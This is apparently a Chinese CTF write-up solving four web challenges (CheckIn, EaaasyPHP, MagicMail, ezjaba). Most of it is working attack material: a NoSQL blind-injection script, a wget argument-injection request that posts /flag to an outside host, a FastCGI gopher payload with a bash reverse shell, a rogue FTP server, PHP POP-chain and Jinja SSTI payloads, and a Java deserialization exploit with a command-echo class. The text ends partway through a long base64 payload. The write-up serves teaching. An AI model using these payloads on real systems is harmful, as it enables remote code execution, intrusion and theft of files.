# Web

### CheckIn

审计源码：

```go
package main

import (
    "fmt"
    "io"
    "time"
    "bytes"
    "regexp"
    "os/exec"
    "plugin"
    "gopkg.in/mgo.v2"
    "gopkg.in/mgo.v2/bson"
    "github.com/gin-contrib/sessions"
    "github.com/gin-gonic/gin"
    "github.com/gin-contrib/sessions/cookie"
    "github.com/gin-contrib/multitemplate"
    "net/http"
)


type Url struct {
    Url string `json:"url" binding:"required"`
}

type User struct {
    Username string
    Password string
}

const MOGODB_URI = "127.0.0.1:27017"


func MiddleWare() gin.HandlerFunc {
    return func(c *gin.Context) {
        session := sessions.Default(c)

        if session.Get("username") == nil || session.Get("password") != os.Getenv("ADMIN_PASS") {
            c.Header("Content-Type", "text/html; charset=utf-8")
            c.String(200, "<script>alert('You are not admin!');window.location.href='/login'</script>")
            return
        }

        c.Next()
    }
}


func loginController(c *gin.Context) {

    session := sessions.Default(c)
    if session.Get("username") != nil {
        c.Redirect(http.StatusFound, "/home")
        return
    }
    
    username := c.PostForm("username")
    password := c.PostForm("password")

    if username == "" || password == "" {
        c.Header("Content-Type", "text/html; charset=utf-8")
        c.String(200, "<script>alert('The username or password is empty');window.location.href='/login'</script>")
        return
    }

    conn, err := mgo.Dial(MOGODB_URI)
    if err != nil {
        panic(err)
    }

    defer conn.Close()
    conn.SetMode(mgo.Monotonic, true)

    db_table := conn.DB("ctf").C("users")
    result := User{}
    err = db_table.Find(bson.M{"$where":"function() {if(this.username == '"+username+"' && this.password == '"+password+"') {return true;}}"}).One(&result)

    if result.Username == "" {
        c.Header("Content-Type", "text/html; charset=utf-8")
        c.String(200, "<script>alert('Login Failed!');window.location.href='/login'</script>")
        return
    }

    if username == result.Username || password == result.Password {
        session.Set("username", username)
        session.Set("password", password)
        session.Save()
        c.Redirect(http.StatusFound, "/home")
        return
    } else {
        c.Header("Content-Type", "text/html; charset=utf-8")
        c.String(200, "<script>alert('Pretend you logged in successfully');window.location.href='/login'</script>")
        return
    }
}


func proxyController(c *gin.Context) {
    
    var url Url
    if err := c.ShouldBindJSON(&url); err != nil {
        c.JSON(500, gin.H{"msg": err})
        return
    }
    
    re := regexp.MustCompile("127.0.0.1|0.0.0.0|06433|0x|0177|localhost|ffff")
    if re.MatchString(url.Url) {
        c.JSON(403, gin.H{"msg": "Url Forbidden"})
        return
    }
    
    client := &http.Client{Timeout: 2 * time.Second}

    resp, err := client.Get(url.Url)
    if err != nil {
        c.JSON(http.StatusInternalServerError, gin.H{"error": err.Error()})
        return
    }
    defer resp.Body.Close()
    var buffer [512]byte
    result := bytes.NewBuffer(nil)
    for {
        n, err := resp.Body.Read(buffer[0:])
        result.Write(buffer[0:n])
        if err != nil && err == io.EOF {

            break
        } else if err != nil {
            c.JSON(http.StatusInternalServerError, gin.H{"error": err.Error()})
            return
        }
    }
    c.JSON(http.StatusOK, gin.H{"data": result.String()})
}


func getController(c *gin.Context) {


    cmd := exec.Command("/bin/wget", c.QueryArray("argv")[1:]...)
    err := cmd.Run()
    if err != nil {
        fmt.Println("error: ", err)
    }
    
    c.String(http.StatusOK, "Nothing")
}


func createMyRender() multitemplate.Renderer {
    r := multitemplate.NewRenderer()
    r.AddFromFiles("login", "templates/layouts/base.tmpl", "templates/layouts/login.tmpl")
    r.AddFromFiles("home", "templates/layouts/home.tmpl", "templates/layouts/home.tmpl")
    return r
}


func main() {
    router := gin.Default()
    router.Static("/static", "./static")

    p, err := plugin.Open("sess_init.so")
    if err != nil {
        panic(err)
    }

    f, err := p.Lookup("Sessinit")
    if err != nil {
        panic(err)
    }
    key := f.(func() string)()

    storage := cookie.NewStore([]byte(key))
    router.Use(sessions.Sessions("mysession", storage))
    router.HTMLRender = createMyRender()
    router.MaxMultipartMemory = 8 << 20

    router.GET("/", func(c *gin.Context) {
        session := sessions.Default(c)
        if session.Get("username") != nil {
            c.Redirect(http.StatusFound, "/home")  
            return
        } else {
            c.Redirect(http.StatusFound, "/login")  
            return
        }
    })

    router.GET("/login", func(c *gin.Context) {
        session := sessions.Default(c)
        if session.Get("username") != nil {
            c.Redirect(http.StatusFound, "/home")  
            return
        }
        c.HTML(200, "login", gin.H{
            "title": "CheckIn",
        })
    })

    router.GET("/home", MiddleWare(), func(c *gin.Context) {
        c.HTML(200, "home", gin.H{
            "title": "CheckIn",
        })
    })

    router.POST("/proxy", MiddleWare(), proxyController)
    router.GET("/wget", getController)
    router.POST("/login", loginController)

    _ = router.Run("0.0.0.0:8080") // listen and serve on 0.0.0.0:8080

```

审计源码我们可知，存在nosql注入，编写脚本盲注admin的密码：

```python
import requests

url = "http://47.117.125.220:8081/login"

headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

strings = "1234567890abcdefghijklmnopqrstuvwxyz"

res = ""
for i in range(len(res) + 1, 40):
    if len(res) == i - 1:
        for c in strings:
            data = {
                "username": "admin'&&this.password.substr(-" + str(i) + ")=='" + str(c + res) + "') {return true;}})//",
                "password": "123456"
            }
            r = requests.post(url=url, headers=headers, data=data)
            if "Pretend" in r.text:
                res = c + res
                print("[+] " + res)
                break
    else:
        print("[-] Failed")
        break
```

得到admin的明文密码为：

```
54a83850073b0f4c6862d5a1d48ea84f
```

然后直接登陆admin：


然后发现 /proxy 路由存在 ssrf：

```go
func proxyController(c *gin.Context) {
    
    var url Url
    if err := c.ShouldBindJSON(&url); err != nil {
        c.JSON(500, gin.H{"msg": err})
        return
    }
    
    re := regexp.MustCompile("127.0.0.1|0.0.0.0|06433|0x|0177|localhost|ffff")
    if re.MatchString(url.Url) {
        c.JSON(403, gin.H{"msg": "Url Forbidden"})
        return
    }
    
    client := &http.Client{Timeout: 2 * time.Second}

    resp, err := client.Get(url.Url)
    if err != nil {
        c.JSON(http.StatusInternalServerError, gin.H{"error": err.Error()})
        return
    }
    defer resp.Body.Close()
    var buffer [512]byte
    result := bytes.NewBuffer(nil)
    for {
        n, err := resp.Body.Read(buffer[0:])
        result.Write(buffer[0:n])
        if err != nil && err == io.EOF {

            break
        } else if err != nil {
            c.JSON(http.StatusInternalServerError, gin.H{"error": err.Error()})
            return
        }
    }
    c.JSON(http.StatusOK, gin.H{"data": result.String()})
}
```

可以访问使用`[::]`绕过对127.0.0.1的限制然后访问内网。

并且 /wget 路由可以调用 wget 来发送请求，并且我们对其参数可控，那我们可以传入恶意的参数来获取服务器上的文件并外带出来。

所以最终的 payload 如下：

```python
POST: /proxy

{"url":"http://[::]:8080/wget?argv=-e+http_proxy=http://47.xxx.xxx.220:2333&argv=--method=POST&argv=--body-file=/flag&argv=http://47.xxx.xxx.220:2333"}
```



如下图，得到flag：


### EaaasyPHP

题目给了源码：

```php
<?php

class Check {
    public static $str1 = false;
    public static $str2 = false;
}


class Esle {
    public function __wakeup()
    {
        Check::$str1 = true;
    }
}


class Hint {

    public function __wakeup(){
        $this->hint = "no hint";
    }

    public function __destruct(){
        if(!$this->hint){
            $this->hint = "phpinfo";
            ($this->hint)();
        }  
    }
}


class Bunny {

    public function __toString()
    {
        if (Check::$str2) {
            if(!$this->data){
                $this->data = $_REQUEST['data'];
            }
            file_put_contents($this->filename, $this->data);
        } else {
            throw new Error("Error");
        }
    }
}

class Welcome {
    public function __invoke()
    {
        Check::$str2 = true;
        return "Welcome" . $this->username;
    }
}

class Bypass {

    public function __destruct()
    {
        if (Check::$str1) {
            ($this->str4)();
        } else {
            throw new Error("Error");
        }
    }
}

if (isset($_GET['code'])) {
    unserialize($_GET['code']);
} else {
    highlight_file(__FILE__);
}
```

首先我们发现了file_put_contents，所以首先想到的是写文件，但是这里我做了权限设置，你写不了。

除此之外，我们发现还有一个 Hint 类：

```php
class Hint {

    public function __wakeup(){
        $this->hint = "no hint";
    }

    public function __destruct(){
        if(!$this->hint){
            $this->hint = "phpinfo";
            ($this->hint)();
        }  
    }
}
```

我们尝试反序列化读取 phpinfo：

```php
class Hint {

}

echo serialize(new Hint());
// O:4:"Hint":0:{}
```

发送payload发现执行不了：


这是因为`__wakeup`会比`__destruct`优先执行，所以我们要绕过这里的`__wakeup`，这里我们需要用“Serializable” 的特性绕过`__wakeup`，详情请看：https://bugs.php.net/bug.php?id=81151

就是将 `O` 改为 `C`:

```php
C:4:"Hint":0:{}
```

如下所示，成功执行 phpinfo：



并且发现当前环境为 FPM/FastCGI。

然后就是通过 file_put_contents 配合 ftp 打内网的fpm 了。

首先使用 [Gopherus](https://github.com/tarunkant/Gopherus) 生成 Payload：



```php
%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH104%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00h%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/47.xxx.xxx.72/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

然后在 VPS 上运行以下脚本，搭建一个恶意的 FTP 服务器：

```python
# evil_ftp.py
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 233))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9000)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```


开启 nc 监听，等待反弹shell：


然后构造 pop 链触发 Bunny 类中的file_put_contents就行了：

```php
<?php

class Check {
    public static $str1 = false;
    public static $str2 = false;
}


class Esle {
    public function __wakeup()
    {
        Check::$str1 = true;
    }
}


class Hint {

    public function __wakeup(){
        $this->hint = "no hint";
    }

    public function __destruct(){
        if(!$this->hint){
            $this->hint = "phpinfo";
            ($this->hint)();
        }  
    }
}


class Bunny {

    public function __toString()
    {
        if (Check::$str2) {
            if(!$this->data){
                $this->data = $_REQUEST['data'];
            }
            file_put_contents($this->filename, $this->data);
        } else {
            throw new Error("Error");
        }
    }
}

class Welcome {
    public function __invoke()
    {
        Check::$str2 = true;
        return "Welcome" . $this->username;
    }
}

class Bypass {

    public function __destruct()
    {
        if (Check::$str1) {
            ($this->str4)();
        } else {
            throw new Error("Error");
        }
    }
}

$esle = new Esle();   // 0
$poc = new Bypass();
$poc->str4 = new Welcome();
$poc->str4->username = new Bunny();
$poc->str4->username->filename = "ftp://aaa@47.117.125.220:233/123";
echo urlencode(serialize([$esle,$poc]));

// a%3A2%3A%7Bi%3A0%3BO%3A4%3A%22Esle%22%3A0%3A%7B%7Di%3A1%3BO%3A6%3A%22Bypass%22%3A1%3A%7Bs%3A4%3A%22str4%22%3BO%3A7%3A%22Welcome%22%3A1%3A%7Bs%3A8%3A%22username%22%3BO%3A5%3A%22Bunny%22%3A1%3A%7Bs%3A8%3A%22filename%22%3Bs%3A32%3A%22ftp%3A%2F%2Faaa%4047.xxx.xxx.220%3A233%2F123%22%3B%7D%7D%7D%7D
```

最后构造请求发送即可反弹shell了：

```php
/?code=a%3A2%3A%7Bi%3A0%3BO%3A4%3A%22Esle%22%3A0%3A%7B%7Di%3A1%3BO%3A6%3A%22Bypass%22%3A1%3A%7Bs%3A4%3A%22str4%22%3BO%3A7%3A%22Welcome%22%3A1%3A%7Bs%3A8%3A%22username%22%3BO%3A5%3A%22Bunny%22%3A1%3A%7Bs%3A8%3A%22filename%22%3Bs%3A32%3A%22ftp%3A%2F%2Faaa%4047.xxx.xxx.220%3A233%2F123%22%3B%7D%7D%7D%7D&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH104%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00h%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/47.xxx.xxx.220/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```



成功得到flag。

### MagicMail

进入题目，是一个可以发送邮件的页面：


发送之前需要去 Settings 中设置你的邮件服务器信息，只能设置host和port：


没法设置用户名和密码。我们可以在自己服务器上用python开一个smtp服务：

```python
python3 -m smtpd -c DebuggingServer -n 0.0.0.0:2333
```


然后将你的ip和端口填入 settings 中即可：


此时便可以用 /home 路由处来发送邮件了。由于题目的环境是flask，所以我们可以在邮件的 text 中测试 ssti：


点击发送，此时你的服务器上便可拦截到发送的邮件信息：


解base64即可得到以下内容：



如上图可见，确实进行了 6*9 运算，所以确实存在ssti。并且我们可以通过 服务器外带来得到注入的结果。

经测试，题目针对ssti过滤了以下字符：

```python
'class', 'mro', 'base', 'request', 'session', '+', 'add', 'chr', 'u', '.', 'ord', 'redirect', 'url_for', 'config', 'builtins', 'get_flashed_messages', 'get', 'subclasses', 'form', 'cookies', 'headers', '[', ']', '\'', ' ', '_'
```

相关绕过方法可以查看该文章：https://xz.aliyun.com/t/9584#toc-28

我们可以用 attr 配合 hex 编码键绕过，最终的 payload如下：

```python
{{""|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(137)|attr("\x5f\x5f\x69\x6e\x69\x74\x5f\x5f")|attr("\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f")|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")("popen")("ls\x20/")|attr("read")()}}
```




读取flag：

```python
{{""|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(137)|attr("\x5f\x5f\x69\x6e\x69\x74\x5f\x5f")|attr("\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f")|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")("popen")("cat\x20/flag")|attr("read")()}}
```



### ezjaba

考察点：反序列化之后的利用，不出网回显。

注意/BackDoor路由有一个反序列化点的，本来想ban一些rome组件触发的类，结果没有ban完，导致hashset和hashtable可以来绕过直接，反序列化执行代码。



但是该题考察点是反序列化之后的利用，也就是添加了一个toString操作。

所以exp

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import javax.xml.transform.Templates;
import java.io.File;
import java.nio.file.Files;

public class exp {
    public static void main(String[] args) throws Exception {
        //TemplatesImpl templates = SerializeUtil.generateTemplatesImpl();
        byte[] bytecodes = Files.readAllBytes(new File("EvilClass.class").toPath());
        TemplatesImpl tmpl = SerializeUtil.generateTemplatesImpl(bytecodes);
        ObjectBean delegate = new ObjectBean(Templates.class, tmpl);
        System.out.println(tools.base64Encode(tools.serialize(delegate)));
    }
}
```

EvilClass.java

```java
package com.tctffinal.demo.exp2;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class EvilClass extends AbstractTranslet {
    public EvilClass() {
        try {
            java.lang.reflect.Field contextField = org.apache.catalina.core.StandardContext.class.getDeclaredField("context");
            java.lang.reflect.Field serviceField = org.apache.catalina.core.ApplicationContext.class.getDeclaredField("service");
            java.lang.reflect.Field requestField = org.apache.coyote.RequestInfo.class.getDeclaredField("req");
            java.lang.reflect.Method getHandlerMethod = org.apache.coyote.AbstractProtocol.class.getDeclaredMethod("getHandler",null);
            contextField.setAccessible(true);
            serviceField.setAccessible(true);
            requestField.setAccessible(true);
            getHandlerMethod.setAccessible(true);
            org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase =
                    (org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            org.apache.catalina.core.ApplicationContext applicationContext = (org.apache.catalina.core.ApplicationContext) contextField.get(webappClassLoaderBase.getResources().getContext());
            org.apache.catalina.core.StandardService standardService = (org.apache.catalina.core.StandardService) serviceField.get(applicationContext);
            org.apache.catalina.connector.Connector[] connectors = standardService.findConnectors();
            for (int i=0;i<connectors.length;i++) {
                if (4==connectors[i].getScheme().length()) {
                    org.apache.coyote.ProtocolHandler protocolHandler = connectors[i].getProtocolHandler();
                    if (protocolHandler instanceof org.apache.coyote.http11.AbstractHttp11Protocol) {
                        Class[] classes = org.apache.coyote.AbstractProtocol.class.getDeclaredClasses();
                        for (int j = 0; j < classes.length; j++) {
                            if (52 == (classes[j].getName().length())||60 == (classes[j].getName().length())) {
                                java.lang.reflect.Field globalField = classes[j].getDeclaredField("global");
                                java.lang.reflect.Field processorsField = org.apache.coyote.RequestGroupInfo.class.getDeclaredField("processors");
                                globalField.setAccessible(true);
                                processorsField.setAccessible(true);
                                org.apache.coyote.RequestGroupInfo requestGroupInfo = (org.apache.coyote.RequestGroupInfo) globalField.get(getHandlerMethod.invoke(protocolHandler,null));
                                java.util.List list = (java.util.List) processorsField.get(requestGroupInfo);
                                for (int k = 0; k < list.size(); k++) {
                                    org.apache.coyote.Request tempRequest = (org.apache.coyote.Request) requestField.get(list.get(k));
                                    String cmd =tempRequest.getHeader("cmd");//cmd=whoami
                                    org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) tempRequest.getNote(1);
                                    String[] cmds = !System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                                    java.io.InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                                    java.util.Scanner s = new java.util.Scanner(in).useDelimiter("\\a");
                                    String output = s.hasNext() ? s.next() : "";
                                    java.io.Writer writer = request.getResponse().getWriter();
                                    java.lang.reflect.Field usingWriter = request.getResponse().getClass().getDeclaredField("usingWriter");
                                    usingWriter.setAccessible(true);
                                    usingWriter.set(request.getResponse(), Boolean.FALSE);
                                    writer.write(output);//输出
                                    writer.flush();
                                    break;
                                }
                                break;
                            }
                        }
                    }
                    break;
                }
            }
        }catch (Exception e){
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }
}

```


```http
POST /BackDoor HTTP/1.1
Host: ip:port
cmd: cat /flag
Content-Type: application/x-www-form-urlencoded
Content-Length: 9646

ctf=rO0ABXNyAChjb20uc3VuLnN5bmRpY2F0aW9uLmZlZWQuaW1wbC5PYmplY3RCZWFugpkH3nYElEoCAANMAA5fY2xvbmVhYmxlQmVhbnQALUxjb20vc3VuL3N5bmRpY2F0aW9uL2ZlZWQvaW1wbC9DbG9uZWFibGVCZWFuO0wAC19lcXVhbHNCZWFudAAqTGNvbS9zdW4vc3luZGljYXRpb24vZmVlZC9pbXBsL0VxdWFsc0JlYW47TAANX3RvU3RyaW5nQmVhbnQALExjb20vc3VuL3N5bmRpY2F0aW9uL2ZlZWQvaW1wbC9Ub1N0cmluZ0JlYW47eHBzcgArY29tLnN1bi5zeW5kaWNhdGlvbi5mZWVkLmltcGwuQ2xvbmVhYmxlQmVhbt1hu8UzT2t3AgACTAARX2lnbm9yZVByb3BlcnRpZXN0AA9MamF2YS91dGlsL1NldDtMAARfb2JqdAASTGphdmEvbGFuZy9PYmplY3Q7eHBzcgAeamF2YS51dGlsLkNvbGxlY3Rpb25zJEVtcHR5U2V0FfVyHbQDyygCAAB4cHNyADpjb20uc3VuLm9yZy5hcGFjaGUueGFsYW4uaW50ZXJuYWwueHNsdGMudHJheC5UZW1wbGF0ZXNJbXBsCVdPwW6sqzMDAAZJAA1faW5kZW50TnVtYmVySQAOX3RyYW5zbGV0SW5kZXhbAApfYnl0ZWNvZGVzdAADW1tCWwAGX2NsYXNzdAASW0xqYXZhL2xhbmcvQ2xhc3M7TAAFX25hbWV0ABJMamF2YS9sYW5nL1N0cmluZztMABFfb3V0cHV0UHJvcGVydGllc3QAFkxqYXZhL3V0aWwvUHJvcGVydGllczt4cAAAAAD/////dXIAA1tbQkv9GRVnZ9s3AgAAeHAAAAABdXIAAltCrPMX%2bAYIVOACAAB4cAAAGFjK/rq%2bAAAAMwE8CgBGAJ0HAJ4IAJ8KAKAAoQcAoggAowcApAgApQcApggApwoAoACoCgCpAKoKAKsAqgoArACtCgCsAK4HAK8KABAAsAsAsQCyCgCpALMHALQKABQAtQoAtgC3CgAtALgKALYAuQcAugoAoAC7CgCgALwIAL0HAL4IAL8KAKsAwAcAwQsAIADCCwAgAMMHAMQIAE4KACMAxQoAIwDGBwDHCADICgDJAMoKAC0AywgAzAoALQDNBwDOCADPCADQCADRCADSCgDTANQKANMA1QoA1gDXBwDYCgA1ANkIANoKADUA2woANQDcCgA1AN0IAN4KACcA3woA4ADhCgDiAOMIAFsJAOQA5QoAqQDmCgDnAOgKAOcA6QcA6gcA6wcA7AEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAt0ZW1wUmVxdWVzdAEAG0xvcmcvYXBhY2hlL2NveW90ZS9SZXF1ZXN0OwEAA2NtZAEAEkxqYXZhL2xhbmcvU3RyaW5nOwEAB3JlcXVlc3QBACdMb3JnL2FwYWNoZS9jYXRhbGluYS9jb25uZWN0b3IvUmVxdWVzdDsBAARjbWRzAQATW0xqYXZhL2xhbmcvU3RyaW5nOwEAAmluAQAVTGphdmEvaW8vSW5wdXRTdHJlYW07AQABcwEAE0xqYXZhL3V0aWwvU2Nhbm5lcjsBAAZvdXRwdXQBAAZ3cml0ZXIBABBMamF2YS9pby9Xcml0ZXI7AQALdXNpbmdXcml0ZXIBABlMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7AQABawEAAUkBAAtnbG9iYWxGaWVsZAEAD3Byb2Nlc3NvcnNGaWVsZAEAEHJlcXVlc3RHcm91cEluZm8BACRMb3JnL2FwYWNoZS9jb3lvdGUvUmVxdWVzdEdyb3VwSW5mbzsBAARsaXN0AQAQTGphdmEvdXRpbC9MaXN0OwEAAWoBAAdjbGFzc2VzAQASW0xqYXZhL2xhbmcvQ2xhc3M7AQAPcHJvdG9jb2xIYW5kbGVyAQAjTG9yZy9hcGFjaGUvY295b3RlL1Byb3RvY29sSGFuZGxlcjsBAAFpAQAMY29udGV4dEZpZWxkAQAMc2VydmljZUZpZWxkAQAMcmVxdWVzdEZpZWxkAQAQZ2V0SGFuZGxlck1ldGhvZAEAGkxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQAVd2ViYXBwQ2xhc3NMb2FkZXJCYXNlAQAyTG9yZy9hcGFjaGUvY2F0YWxpbmEvbG9hZGVyL1dlYmFwcENsYXNzTG9hZGVyQmFzZTsBABJhcHBsaWNhdGlvbkNvbnRleHQBAC1Mb3JnL2FwYWNoZS9jYXRhbGluYS9jb3JlL0FwcGxpY2F0aW9uQ29udGV4dDsBAA9zdGFuZGFyZFNlcnZpY2UBACpMb3JnL2FwYWNoZS9jYXRhbGluYS9jb3JlL1N0YW5kYXJkU2VydmljZTsBAApjb25uZWN0b3JzAQAqW0xvcmcvYXBhY2hlL2NhdGFsaW5hL2Nvbm5lY3Rvci9Db25uZWN0b3I7AQAEdGhpcwEAI0xjb20vdGN0ZmZpbmFsL2RlbW8vZXhwMi9FdmlsQ2xhc3M7AQANU3RhY2tNYXBUYWJsZQcA6wcA7QcA7gcArwcAogcAtAcAdwcA7wcAZwcAvgcAwQcAxAcAzgcAxwcAUwcA8AcA2AcA6gEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApFeGNlcHRpb25zBwDxAQAQTWV0aG9kUGFyYW1ldGVycwEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAKU291cmNlRmlsZQEADkV2aWxDbGFzcy5qYXZhDABHAEgBAChvcmcvYXBhY2hlL2NhdGFsaW5hL2NvcmUvU3RhbmRhcmRDb250ZXh0AQAHY29udGV4dAcA8gwA8wD0AQArb3JnL2FwYWNoZS9jYXRhbGluYS9jb3JlL0FwcGxpY2F0aW9uQ29udGV4dAEAB3NlcnZpY2UBAB1vcmcvYXBhY2hlL2NveW90ZS9SZXF1ZXN0SW5mbwEAA3JlcQEAIm9yZy9hcGFjaGUvY295b3RlL0Fic3RyYWN0UHJvdG9jb2wBAApnZXRIYW5kbGVyDAD1APYHAO0MAPcA%2bAcA7gcA%2bQwA%2bgD7DAD8AP0BADBvcmcvYXBhY2hlL2NhdGFsaW5hL2xvYWRlci9XZWJhcHBDbGFzc0xvYWRlckJhc2UMAP4A/wcBAAwBAQECDAEDAQQBAChvcmcvYXBhY2hlL2NhdGFsaW5hL2NvcmUvU3RhbmRhcmRTZXJ2aWNlDAEFAQYHAQcMAQgBCQwBCgELDAEMAQ0BAC9vcmcvYXBhY2hlL2NveW90ZS9odHRwMTEvQWJzdHJhY3RIdHRwMTFQcm90b2NvbAwBDgEPDAEQAQkBAAZnbG9iYWwBACJvcmcvYXBhY2hlL2NveW90ZS9SZXF1ZXN0R3JvdXBJbmZvAQAKcHJvY2Vzc29ycwwBEQESAQAOamF2YS91dGlsL0xpc3QMARMBCwwBAwEUAQAZb3JnL2FwYWNoZS9jb3lvdGUvUmVxdWVzdAwBFQEWDAEXARQBACVvcmcvYXBhY2hlL2NhdGFsaW5hL2Nvbm5lY3Rvci9SZXF1ZXN0AQAHb3MubmFtZQcBGAwBGQEWDAEaAQkBAAN3aW4MARsBHAEAEGphdmEvbGFuZy9TdHJpbmcBAAJzaAEAAi1jAQAHY21kLmV4ZQEAAi9jBwEdDAEeAR8MASABIQcBIgwBIwEkAQARamF2YS91dGlsL1NjYW5uZXIMAEcBJQEAAlxhDAEmAScMASgBKQwBKgEJAQAADAErASwHAS0MAS4BLwcBMAwBMQEyBwEzDAE0ATUMATYBNwcBOAwBOQE6DAE7AEgBABNqYXZhL2xhbmcvRXhjZXB0aW9uAQAhY29tL3RjdGZmaW5hbC9kZW1vL2V4cDIvRXZpbENsYXNzAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAF2phdmEvbGFuZy9yZWZsZWN0L0ZpZWxkAQAYamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kAQAhb3JnL2FwYWNoZS9jb3lvdGUvUHJvdG9jb2xIYW5kbGVyAQATamF2YS9pby9JbnB1dFN0cmVhbQEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAD2phdmEvbGFuZy9DbGFzcwEAEGdldERlY2xhcmVkRmllbGQBAC0oTGphdmEvbGFuZy9T